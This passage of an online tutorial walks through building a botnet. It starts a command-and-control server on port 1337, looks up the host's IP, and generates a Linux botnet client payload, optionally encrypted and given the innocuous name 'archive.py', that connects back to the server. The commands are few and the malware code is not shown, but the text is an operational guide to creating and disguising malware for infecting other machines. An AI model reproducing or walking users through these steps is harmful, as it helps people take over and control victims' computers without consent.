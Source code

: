 ```bash
python server.py --port 1337
```

In the above example, I set up the Botnet server to listen to the port 1337 of my machine. But of course, you are free to use the port you want as long you use the same port when creating the Botnet client.

If you want to display usage information and/or all the options available, at this stage you can do it by invoking the `help` command from your terminal as per the below screenshot.

**Output**

![image-1](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/475229c55e40e6c0653971a0c4501cdf-1.png "Image-1")

* * *

###### CREATE A LINUX BOTNET CLIENT

We will now talk about the most important part, we will create our first Botnet client that will target Linux machine. We will see in the next step how to create a client that works on Windows also don't worry. To do this the first thing that we will need to determine is the IP address to which your Botnet Server is currently connected. If you do not know the IP address of your machine, you can simply find it using the following command:

```bash
ifconfig
```

**Output**

![image-2](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/475229c55e40e6c0653971a0c4501cdf-2.png "Image-2")

Before moving further, we will take a few minutes to check the usage information and all the options available for our Botnet client. To do it, simply use the following command:

```bash
python client.py --help
```

**Output**

![image-3](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/475229c55e40e6c0653971a0c4501cdf-3.png "Image-3")

As you can see from the above screenshot, to create our Botnet we must use the following arguments:

```bash
usage: client.py [-h] [--name NAME] [--encrypt] [Botnet Server IP] [Botnet Server Port]
```

So let's try to generate our first Botnet. For this tutorial, I will use it as output name `archive` but of course you can name it whatever you want.

```bash
python client.py --name archive.py 192.168.1.4 1337
```

**Output**

![image-4](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/475229c55e40e6c0653971a0c4501cdf-4.png "Image-4")
